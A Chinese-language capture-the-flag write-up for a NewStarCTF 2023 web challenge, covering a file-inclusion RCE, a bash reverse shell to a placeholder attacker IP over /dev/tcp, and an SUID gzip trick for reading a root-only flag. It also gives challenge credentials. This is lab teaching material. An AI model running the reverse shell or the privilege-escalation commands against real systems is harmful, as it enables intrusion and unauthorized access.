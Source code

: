 ```yaml
---
title: NewStarCTF2023 week5 web 4-复盘
date: 2023-11-2 16:17 +0800
categories: [CTF,WEB]
tags: [web]
media_subpath: /assets
---
```




通过第三周流量分析题和题目给的源代码得到

best_admin
so_hard_password

和主页存在文件包含rce漏洞

![image-20231102160836752](image-20231102160836752.png)‘



和newstar 之前两道题目一模一样，一步的lfl+rce 和 linux 提权

![image-20231102160937766](image-20231102160937766.png)



这个靶机有点问题，哥斯拉不是很好用，我们反弹shell到 公网服务器上

```
bash -i >& /dev/tcp/攻击机IP/端口 0>&1
```

**![image-20231102161238097](image-20231102161238097.png)**

老套路，只能root权限才能查看flag文件，提权

还是查看suid位

![image-20231102161400877](image-20231102161400877.png)

gzip 查看flag

```
sudo install -m =xs $(which gzip) .

LFILE=file_to_read
./gzip -f $LFILE -t
```



![image-20231102161124753](image-20231102161124753.png)

成功解出

![image-20231102161515150](image-20231102161515150.png)